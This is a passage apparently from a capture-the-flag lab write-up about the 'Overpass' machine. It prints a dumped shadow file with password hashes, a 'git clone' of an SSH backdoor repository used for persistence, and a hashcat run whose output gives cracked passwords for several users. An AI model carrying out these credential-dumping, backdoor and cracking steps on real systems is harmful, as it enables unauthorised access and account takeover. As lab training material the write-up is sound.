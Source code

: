 ```
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
james@overpass-production:~$ git clone https://github.com/NinjaJc01/ssh-backdoor

<git clone https://github.com/NinjaJc01/ssh-backdoor
Cloning into 'ssh-backdoor'...
```
Lol it's james's fault again

Backdoor = persistence

Ok time to crack them hashes

```
└──╼ $hashcat -m 1800 hashes.txt /usr/share/wordlists/fasttrack.txt
hashcat (v6.1.1) starting...

...

james: 

paradox: secuirty3

szymex: abcd123

bee: secret12

```